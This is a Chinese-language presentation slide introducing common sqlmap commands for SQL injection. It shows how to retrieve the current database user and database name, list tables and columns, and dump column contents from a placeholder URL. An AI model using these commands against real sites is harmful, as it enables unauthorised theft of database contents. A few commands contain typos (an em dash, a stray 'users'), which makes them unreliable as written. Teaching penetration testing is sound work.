

常用语法介绍
#获取当前用户名称
sqlmap -u "http://url/news?id=1" --current-user

#获取当前数据库名称
sqlmap -u "http://www.xxoo.com/news?id=1" —current-db

#列表名
sqlmap -u "http://www.xxoo.com/news?id=1" --tables -D “db_name”

#列字段
sqlmap -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 #

#获取字段内容
sqlmap -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0